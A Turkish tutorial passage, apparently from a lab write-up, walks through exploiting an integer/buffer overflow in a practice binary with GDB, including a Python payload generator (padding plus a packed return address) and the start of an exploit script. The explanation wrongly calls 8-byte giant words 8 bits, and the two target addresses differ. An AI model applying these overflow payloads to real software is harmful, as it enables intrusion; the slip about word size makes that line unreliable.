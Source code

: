 *PADDING SIZE hesaplama*

Şimdi GDB ile incelemeye başlıyoruz. Bunun için **"gdb vulnerable_code"** komutunu kullanıyoruz.

Ardından **"list main"** komutuyla kodlarımızı görüntülüyoruz:

*GDB ile Kodların Görüntülenmesi*

Kodları görüntüledikten sonra daha önce hesapladığımız integer overflow için bir payload oluşturmamız gerekiyor. Bu aşamada şöyle bir Python scripti ile değeri oluşturabiliriz.

```python
import struct
PADDING_SIZE = 64 # Buffer boyutu
TARGET_ADDRESS = 0x401176 # Hesaplanan Hedef Adres
payload = b'A' * PADDING_SIZE + struct.pack("<Q", TARGET_ADDRESS)
with open("payload.bin", "wb") as f: f.write(payload)
print("'payload.bin' oluşturuldu.")
```

Ardından GDB'ye geri dönüyoruz ve "break vulnerable_function_1" yazıyoruz. Böylece ilgili fonksiyonda kod duracaktır.

*Breakpoint Ataması*

PADDING_SIZE değerini yavaş yavaş arttırıyoruz ve GDB üzerinden **"run < payload.bin"** komutuyla denemeye başlıyoruz.

*Enjeksiyon Denemesi - 1*

Bu aşamada integer overflow'un tetiklendiğini görüyoruz. Şimdi değerlerimiz oluşmuş mu diye bakmak için öncelikle değerin yerini bulmak için **"print size"** komutunu çalıştırıyoruz. Burada çıkan değeri bir yere not alıyoruz.

*Değişken Yerini Bulma*

Şimdi en önemli aşamadayız "x/16gx DEGER" şeklinde komutu çalıştırıyoruz. Bu komutun manası ise **"belleği incele (x), 16 birimlik değer göster (/16), giant word formatında göster (her biri 8 bit, g) ve hex olarak göster (x)"** diyoruz.

*Zafiyetin Tespiti*

**BINGO!** Zafiyeti başarıyla tespit etmiş bulunuyoruz. Artık hesaplamaya geçiyoruz. Bu değerlere göre integer overflow'un nasıl çalıştığını görebiliriz.

Şimdi tüm bu bilgilerle sömürü kodumuzu yazmaya başlıyoruz. Ben sömürü kodu için Python dilini kullanıyorum. Sizler farklı dillerde yazabilirsiniz.

Statik değişkenlerimizi belirleyelim:

```python
# Zafiyetli programın adı
VICTIM_PROGRAM = "./compiled/$(uname -m)/vulnerable_code"

# objdump ile bulduğumuz statik adres.
HARDCODED_ADDRESS = 0x401166
# Padding boyutumuz
PADDING_SIZE = 64
```
